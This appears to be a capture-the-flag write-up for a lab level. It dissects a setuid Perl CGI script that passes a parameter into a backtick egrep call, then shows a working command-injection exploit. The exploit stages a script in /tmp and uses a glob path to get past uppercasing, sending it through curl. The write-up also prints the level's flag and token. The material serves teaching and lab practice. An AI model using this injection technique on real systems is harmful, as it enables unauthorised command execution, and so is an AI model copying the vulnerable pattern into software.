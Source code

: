 ## FLAG: `fa6v5ateaw21peobuub8ipe6s`

## We have a perl script
> ls -l
```
    total 4
    -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

> cat level12.pl
##  `# localhost:4646`                          Script on `localhost:4646`
##  `n(t(param("x"), param("y")));`             Looking for 2 params `x` and `y`
##      `$nn = $_[1];`                          `y` put to `nn`
##      `$xx = $_[0];`                          `x` put to `xx`
##      `$xx =~ tr/a-z/A-Z/;`                   toupper on `xx`
##      `$xx =~ s/\s.*//;`                      replace everything following a whitespace (`\s`) by nothing on `xx`
##  ``@output = `egrep "^$xx" /tmp/xd 2>&1`;``  can exploit with `xx`

## Creating a getflag script
> vi /tmp/12_GETFLAG.SH
```
#!/bin/bash
getflag > /tmp/12_res
```
> chmod +x /tmp/12_GETFLAG.SH

## Calling the perl script with `curl` 
> curl 'http://127.0.0.1:4646/?x=$(/*/12_GETFLAG.SH)&y=BAHRIEN'
> cat /tmp/12_res
```
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```